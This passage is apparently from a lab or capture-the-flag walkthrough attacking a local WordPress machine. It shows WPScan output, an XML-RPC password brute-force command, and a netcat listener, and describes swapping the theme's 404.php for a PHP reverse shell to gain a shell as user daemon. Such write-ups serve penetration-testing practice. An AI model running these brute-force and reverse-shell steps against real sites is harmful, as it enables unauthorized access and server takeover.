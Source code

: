 ```bash
 | [!] The version is out of date, the latest version is 3.5
 | Style URL: http://10.10.1.157/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteens simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.1.157/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: "Version: 1.3"

[...]
```

The `WPScan` revealed some interesting findings: 110 vulnerabilities, the directory structure of the WordPress instance, and the fact that XML-RPC was enabled. This could be used to perform a dictionary attack to find a valid user-password combination, which is much faster than using the wp-login method. Unfortunately, I was not able to find a user - but I had the dictionary, which may contain the password.

### Cracking the admin password

Despite not finding a user, I decided to run the `WPScan` with the user `admin`, because why not? It's always worth trying the obvious!

```bash
wpscan --password-attack xmlrpc -t 20 -U admin -P ~/Downloads/xxxxxx.dic --url http://10.10.1.157
```

The dictionary was huge, and I wasted at least half an hour before I realized that there were duplicates in the dictionary. I removed the duplicates with awk, which reduced the size to about 12%.

```bash
awk '!seen[$0]++' ~/Downloads/xxxxxx.dic > xxxxxx.txt
```

The password attack with the user admin was not successful, so I tried mrrobot and then elliot. That finally was successful, and I had the password for the WordPress admin panel.

One way to perform a Remote Code Execution (RCE) on a WordPress instance is to edit a page so that it serves a PHP reverse shell. You can do this in the Appearance/Themes/Editor section. I replaced the content of the 404.php template with the pentestmonkey PHP reverse shell.

On my local machine, I started netcat to listen on the port I configured the reverse shell with:

```bash
ncat -lvp 6666
```

Then I called the 404.php page `http://10.10.1.157/wp-content/themes/twentyfifteen/404.php`.

Netcat got the connection, and I had access to the machine with the user daemon.
